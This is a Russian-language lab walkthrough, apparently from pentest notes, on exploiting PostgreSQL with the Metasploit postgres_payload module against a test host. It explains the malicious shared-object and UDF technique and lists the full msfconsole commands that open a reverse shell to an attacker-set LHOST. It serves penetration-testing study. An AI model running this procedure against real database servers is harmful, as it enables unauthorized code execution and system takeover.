



#### Вектор атаки: PostgreSQL

---

#### Атака

- ```search postgresql```

    - Получаем строчку: 

    ```29  exploit/linux/postgres/postgres_payload 2007-06-05 excellent Yes PostgreSQL for Linux Payload Execution```

    Если мы пойдём на ```GitHub,``` то заметим описание для данного эксплойт-кода ([тык](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/postgres/postgres_payload.rb))

    Описание:

    ```
    'Description' => %q{
        On some default Linux installations of PostgreSQL, the
        postgres service account may write to the /tmp directory, and
        may source UDF Shared Libraries from there as well, allowing
        execution of arbitrary code.

        This module compiles a Linux shared object file, uploads it to
        the target host via the UPDATE pg_largeobject method of binary
        injection, and creates a UDF (user defined function) from that
        shared object. Because the payload is run as the shared object's
        constructor, it does not need to conform to specific Postgres
        API versions.
    },
    ...
    ```

    Что это значит:

    1. PostgreSQL запущен от имени ```postgres``` и может писать в ```/tmp```

    2. Модуль из ```metasploit``` компилирует вредоносный ```.so``` файл, внутри которого код, при запуске открывающий ```shell.```

    3. Метасплоит заливает готовый ```.so``` в таблицу ```pg_largeobject``` и создаёт ```UDF``` из этого файла.

    4. В момент загрузки файла автоматически срабатывает конструктор, который открывает ```shell.```

    Пайплайн:

    пароль -> .so в /tmp через pg_largeobject -> CREATE FUNCTION -> PostgreSQL грузит файл -> конструктор срабатывает автоматически -> shell.

- ```use exploit/linux/postgres/postgres_payload```

- ```set LHOST 192.168.0.16```

- ```set LPORT 4444```

- ```set RHOSTS 192.168.0.15```

- ```set RPORT 5432```

- ```run```

---

#### Результат

- ```options:```



- ```run:```



- ```shell:```



--- 

#### Полезные ссылки

- https://github.com/MohamedMostafa010/Metasploitable2_Pentest_46Findings/blob/main/docs/Pentest_Report.pdf

- https://www.youtube.com/watch?v=rWhEqanDk-M

- https://medium.com/@josegpach/exploiting-postgresql-on-metasploitable-2-ec59c2e63328

